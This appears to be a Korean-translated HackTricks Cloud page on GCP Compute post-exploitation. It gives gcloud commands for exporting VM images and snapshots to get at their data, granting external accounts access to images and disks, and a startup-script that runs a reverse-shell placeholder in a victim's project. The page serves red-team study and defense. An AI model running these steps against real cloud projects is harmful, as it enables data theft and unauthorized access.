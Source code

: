 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute와 VPC (Networking)에 대한 자세한 정보는 다음을 참조하십시오:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

이 방법을 통해 공격자는 **이미 존재하는 이미지에 포함된 데이터에 접근**하거나 **실행 중인 VM의 새로운 이미지를 생성**하여 실행 중인 VM에 접근하지 않고도 데이터를 접근할 수 있습니다.

VM 이미지를 버킷으로 내보낸 다음 다운로드하여 로컬에서 마운트할 수 있습니다. 명령어는 다음과 같습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 스토리지 버킷에 대한 권한이 필요할 수 있으며, **cloudbuild**에 대한 **권한**이 반드시 필요합니다. 이는 **서비스**가 내보내기를 수행하도록 요청받을 것이기 때문입니다.\
또한, 이를 위해 codebuild SA와 compute SA는 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`는 다음 권한이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`는 다음 권한이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크를 로컬에서 내보내기 및 검사

스냅샷과 디스크를 직접 내보내는 것은 불가능하지만, **스냅샷을 디스크로 변환하고, 디스크를 이미지로 변환**한 다음 **이전 섹션**을 따라 이미지를 내보내어 로컬에서 검사할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VM을 생성하여 이미지 검사

**이미지에 저장된 데이터** 또는 **실행 중인 VM** 내부에 접근하는 것을 목표로, 공격자가 **이미지를 생성한** 경우 외부 계정에 이미지에 대한 접근 권한을 부여할 수 있습니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 나서 새로운 VM을 생성합니다:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 외부 계정에 이미지에 대한 접근 권한을 줄 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 VM을 실행하고 **메타데이터가 리버스 쉘을 실행**하도록 하여 이미지에 접근할 수 있습니다. 다음과 같은 매개변수를 추가합니다:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

디스크나 스냅샷에 저장된 **데이터에 접근하기 위해, 스냅샷을 디스크로 변환하거나, 디스크를 이미지로 변환한 후 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크 접근 권한을 부여**할 수 있습니다 (시작점이 스냅샷인 경우 스냅샷에 접근 권한을 부여하거나 이를 디스크로 생성):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**디스크를 인스턴스에 연결**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
디스크를 VM 내부에 마운트하기:

1.  **VM에 SSH 접속**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 접속한 후, 디스크 장치를 나열하여 새 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새 디스크 또는 원시 디스크인 경우):
*   마운트 포인트 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

스냅샷 또는 디스크에 외부 프로젝트에 대한 접근 권한을 부여할 수 없는 경우, **스냅샷/디스크와 동일한 프로젝트 내의 인스턴스에서 이러한 작업을 수행해야 할 수 있습니다**.

{% hint style="success" %}
AWS Hacking 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
